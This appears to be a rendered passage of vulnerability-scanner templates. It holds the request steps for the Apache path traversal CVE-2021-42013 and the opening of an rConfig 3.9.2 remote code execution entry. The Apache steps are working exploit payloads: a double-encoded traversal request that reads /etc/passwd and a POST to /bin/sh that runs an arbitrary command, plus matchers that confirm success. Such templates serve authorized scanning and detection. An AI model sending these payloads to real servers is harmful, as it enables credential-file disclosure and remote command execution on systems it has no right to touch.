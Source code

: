 ### Step - 2

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

### Step - 3

```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}


```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-42013

---

# rConfig 3.9.2 - Remote Code Execution

## Description

- rConfig 3.9.2 is susceptible to a remote code execution vulnerability. An attacker can directly execute system commands by sending a GET request to ajaxServerSettingsChk.php because the rootUname parameter is passed to the exec function without filtering, which can lead to command execution.
- severity - critical
- tags - cve,cve2019,rce,intrusive,rconfig

## Requests
